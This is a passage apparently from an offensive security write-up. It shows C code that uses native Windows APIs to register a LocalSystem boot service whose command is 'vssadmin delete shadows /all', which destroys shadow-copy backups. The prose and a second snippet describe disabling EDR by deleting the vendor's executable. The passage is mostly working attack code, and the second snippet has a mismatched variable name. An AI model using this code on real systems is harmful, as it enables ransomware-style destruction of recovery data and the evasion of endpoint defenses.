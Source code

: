 ```c
    ULONG typeVal = 0x10;
    RtlInitUnicodeString(&valName, L"Type");
    NtSetValueKey(hService, &valName, 0, REG_DWORD, &typeVal, sizeof(typeVal));

    ULONG startVal = 2;
    RtlInitUnicodeString(&valName, L"Start");
    NtSetValueKey(hService, &valName, 0, REG_DWORD, &startVal, sizeof(startVal));

    ULONG errVal = 1;
    RtlInitUnicodeString(&valName, L"ErrorControl");
    NtSetValueKey(hService, &valName, 0, REG_DWORD, &errVal, sizeof(errVal));

    WCHAR imagePath[] = L"cmd /c \"vssadmin.exe delete shadows /all\"";
    RtlInitUnicodeString(&valName, L"ImagePath");
    NtSetValueKey(hService,
        &valName,
        0,
        REG_EXPAND_SZ,
        imagePath,
        (ULONG)(wcslen(imagePath) * sizeof(WCHAR)));

    WCHAR dispName[] = L"vssadmin";
    RtlInitUnicodeString(&valName, L"DisplayName");
    NtSetValueKey(hService,
        &valName,
        0,
        REG_SZ,
        dispName,
        (ULONG)(wcslen(dispName) * sizeof(WCHAR)) + 1);

    WCHAR objName[] = L"LocalSystem";
    RtlInitUnicodeString(&valName, L"ObjectName");
    NtSetValueKey(hService,
        &valName,
        0,
        REG_SZ,
        objName,
        (ULONG)(wcslen(objName) * sizeof(WCHAR)));

    NtClose(hService);

    return STATUS_SUCCESS;
}
```

We mentioned earlier that EDRs will load after Win32 subsystem initialization, and our service will be executed around that time. To prevent EDRs from killing our command line, we will need to disable the EDR services/drivers from loading. Regarding options, we can delete the EDR files that exist under C:\Program Files\, but then their driver will still load and veto our vssadmin command line.

```c
OBJECT_ATTRIBUTES objAttr = { 0 };
UNICODE_STRING filePath = { 0 };

RtlInitUnicodeString(&filePath, L"\\??\\C:\\Program Files\\Vendor\\VendorService.exe");
InitializeObjectAttributes(&objAttr, &file_path, OBJ_CASE_INSENSITIVE, NULL, NULL);

NtDeleteFile(&objAttr);
```
